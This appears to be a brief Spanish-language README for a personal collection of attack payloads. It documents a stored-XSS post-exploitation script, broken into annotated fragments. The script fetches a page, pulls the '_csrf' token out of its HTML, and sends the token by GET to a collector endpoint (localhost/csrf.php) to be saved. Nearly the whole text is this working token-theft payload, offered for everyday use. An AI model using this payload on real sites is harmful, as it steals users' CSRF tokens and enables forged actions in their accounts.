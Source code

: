 
# Payloads Varios

Aqui guardo algunos payloads de uso cotidiano, como para tenerlos a mano.

## XSSStoredParserBODY.js

Su funcion esta pensada para un escenario de post explotacion de XSS Stored en donde es necesario extraer algun dato del usuario **DEL BODY**, como un token CSRF.
>fetch('http://URL') -> peticion GET sin opciones

>r=>r.text() -> Response a texto

>d=>{fetch('http://localhost/csrf.php?i='+ -> llamada a accion, en este caso enviar el token por GET a ser almacenado en archivo localhost

>new DOMParser().parseFromString(d, "text/html").getElementsByName("_csrf")[0].value) -> parseo token por nombre de elemento en el html

>{mode:'no-cors'})} -> opciones para finalizar el fetch de salida

_**Salu2**_

